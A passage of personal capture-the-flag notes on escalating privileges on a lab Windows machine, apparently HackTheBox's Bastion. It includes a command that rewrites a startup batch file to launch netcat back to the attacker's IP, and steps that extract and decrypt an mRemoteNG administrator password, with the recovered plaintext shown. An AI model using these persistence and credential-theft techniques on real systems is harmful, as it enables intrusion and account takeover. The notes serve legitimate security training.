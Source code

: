 - Cannot move payload to `C:\Program Files\`. Access is denied
- Reviewing the ouput of `winPEAs` I find a batch file in `L4mpje` Startup folder
```
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>type L4mpje-script.bat                                         
NET USE Z: "\\192.168.1.74\Backups" /user:L4mpje bureaulampje
```
- Lets change this to use `nc` (transfer `nc.exe` to RHOST)
```
(echo @echo off & echo C:\Users\L4mpje\nc.exe -v 10.10.14.5 443) > "C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\L4mpje-script.bat"
```
- With my `nc` listener, all I got was a mirrored shell...

- A lot of time and research and digging later, I find #mRemoteNG folder in `Program Files`
	- This [exploit](https://www.exploit-db.com/exploits/51637)shows that you can dump cleartext passwords from memory
	- Also found in #searchsploit , #CVE-2023-30367
```
l4mpje@BASTION C:\Program Files (x86)>dir            
 Volume in drive C has no label.          
 Volume Serial Number is 1B7D-E692          
 Directory of C:\Program Files (x86)       
22-02-2019  15:01    <DIR>          .      
22-02-2019  15:01    <DIR>          ..
16-07-2016  15:23    <DIR>          Common Files          
23-02-2019  10:38    <DIR>          Internet Explorer     
16-07-2016  15:23    <DIR>          Microsoft.NET          
22-02-2019  15:01    <DIR>          mRemoteNG            
23-02-2019  11:22    <DIR>          Windows Defender      
23-02-2019  10:38    <DIR>          Windows Mail          
23-02-2019  11:22    <DIR>          Windows Media Player 
16-07-2016  15:23    <DIR>          Windows Multimedia Platform  
16-07-2016  15:23    <DIR>          Windows NT                 
23-02-2019  11:22    <DIR>          Windows Photo Viewer        
16-07-2016  15:23    <DIR>          Windows Portable Devices    
16-07-2016  15:23    <DIR>          WindowsPowerShell     

               0 File(s)              0 bytes
              14 Dir(s)   4.761.444.352 bytes free  
```

- Since the exploit is written in python and python is not installed on the RHOST, I did more research...
- Turns out the file that mRemoteNG uses to store encrypted user passwords is `confCons.xml` and it is located in the Users `AppData` folder.
	- Under the directory `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`, we find the admins password AES encrypted with GCM block cypher, 1000 Kdf Iterations
```
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```
- So we have the Password string , now we will use the python script to [decrypt](https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper) it (**_the string looks like base64 and I decoded it earlier but it gave gibbrish so no use for b64 decode_**)
```
┌──(root㉿kali)-[~/Downloads]
└─# python ./mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```
